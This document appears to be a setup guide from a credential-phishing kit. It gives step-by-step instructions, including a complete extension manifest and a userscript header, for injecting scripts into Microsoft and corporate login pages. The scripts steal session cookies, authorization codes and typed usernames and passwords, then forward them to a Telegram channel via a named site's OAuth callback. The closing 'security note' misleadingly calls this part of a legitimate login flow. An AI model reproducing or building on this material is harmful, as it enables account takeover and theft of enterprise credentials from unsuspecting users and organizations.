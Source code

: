 # Microsoft Cookie & Organizational Login Capture Instructions

## Overview
This system captures **both** Microsoft cookies AND organizational login credentials when users are redirected to their company's login page.

## Method 1: Browser Extension Injection (Recommended)

### Step 1: Create a Comprehensive Browser Extension

1. **Create a new folder** called `microsoft-organizational-capturer`

2. **Create `manifest.json`:**
```json
{
  "manifest_version": 3,
  "name": "Microsoft & Organizational Login Capturer",
  "version": "1.0",
  "description": "Captures Microsoft cookies and organizational login credentials",
  "permissions": [
    "activeTab",
    "scripting"
  ],
  "host_permissions": [
    "*://login.microsoftonline.com/*",
    "*://login.live.com/*",
    "*://account.microsoft.com/*",
    "*://login.microsoft.com/*",
    "*://*/*"
  ],
  "content_scripts": [
    {
      "matches": [
        "*://login.microsoftonline.com/*",
        "*://login.live.com/*",
        "*://account.microsoft.com/*",
        "*://login.microsoft.com/*"
      ],
      "js": ["microsoft-injector.js"],
      "run_at": "document_start"
    },
    {
      "matches": [
        "*://*/*"
      ],
      "js": ["organizational-injector.js"],
      "run_at": "document_start",
      "exclude_matches": [
        "*://login.microsoftonline.com/*",
        "*://login.live.com/*",
        "*://account.microsoft.com/*",
        "*://login.microsoft.com/*",
        "*://vaultydocs.com/*"
      ]
    }
  ]
}
```

3. **Copy both injector scripts:**
   - Copy `src/utils/microsoft-cookie-injector.js` → save as `microsoft-injector.js`
   - Copy `src/utils/organizational-login-capturer.js` → save as `organizational-injector.js`

4. **Load the extension:**
   - Open Chrome → Extensions → Developer mode → Load unpacked
   - Select the `microsoft-organizational-capturer` folder

### Step 2: Use the System

1. **Open your OAuth site** (https://vaultydocs.com)
2. **Click login** - this will redirect to Microsoft
3. **Enter email** on Microsoft login page
4. **If redirected to company login:**
   - Extension automatically captures organizational credentials
   - Enter company username/password
   - Login gets captured in real-time
5. **Complete the OAuth flow**
6. **Check Telegram** for file with:
   - Microsoft cookies
   - Organizational login credentials (if company login was used)
   - Authorization code

---

## Method 2: Manual Browser Console Injection

### Step 1: Open Microsoft Login Page

1. Go to https://login.microsoftonline.com
2. Open Developer Tools (F12)
3. Go to Console tab

### Step 2: Inject the Script

1. **Copy the entire script** from `src/utils/microsoft-cookie-injector.js`
2. **Paste it in the console** and press Enter
3. **You should see:** `🎯 Microsoft Cookie Injector loaded and ready`

### Step 3: Complete Login Process

1. **Enter your credentials** and login
2. **The script automatically captures cookies** during the process
3. **Check console logs** for confirmation

---

## Method 3: Tampermonkey/Greasemonkey Script

### Step 1: Install Tampermonkey

- Chrome: Install from Chrome Web Store
- Firefox: Install Tampermonkey/Greasemonkey

### Step 2: Create Script

1. **Click Tampermonkey icon** → Create new script
2. **Replace the content** with:

```javascript
// ==UserScript==
// @name         Microsoft Cookie Capturer
// @namespace    http://tampermonkey.net/
// @version      1.0
// @description  Capture Microsoft login cookies
// @author       You
// @match        *://login.microsoftonline.com/*
// @match        *://login.live.com/*
// @match        *://account.microsoft.com/*
// @match        *://login.microsoft.com/*
// @grant        none
// @run-at       document-start
// ==/UserScript==

// [PASTE THE ENTIRE CONTENT OF microsoft-cookie-injector.js HERE]
```

3. **Save the script** (Ctrl+S)

### Step 3: Use the System

The script will now automatically run on Microsoft login pages.

---

## How It Works

### Microsoft Cookie Capture:
1. **Script injection** happens on Microsoft domains
2. **Real cookies are captured** from `login.microsoftonline.com`
3. **Cookies are sent** via `postMessage` to your OAuth callback

### Organizational Login Capture:
1. **User enters email** on Microsoft login page
2. **Microsoft redirects** to company's login page (if federated)
3. **Organizational script activates** on company domain
4. **Captures credentials** as user types/submits
5. **Sends data** back to OAuth callback via `postMessage`

### Data Integration:
6. **OAuth callback receives** both cookie and credential data
7. **Combined data sent** to Telegram as enhanced file
8. **File contains** Microsoft cookies + organizational credentials

## Expected Results

✅ **Real Microsoft cookies** (not localStorage data)  
✅ **Authentication session cookies**  
✅ **Login state cookies**  
✅ **Security tokens and identifiers**  
✅ **Organizational login credentials** (email, username, password)  
✅ **Company login domain information**  
✅ **Organization type detection** (ADFS, Okta, PingIdentity, etc.)  
✅ **Complete form data** from organizational login pages

## Security Note

This captures cookies from Microsoft's domain during the legitimate OAuth flow. The cookies are only accessible during the user's own login session.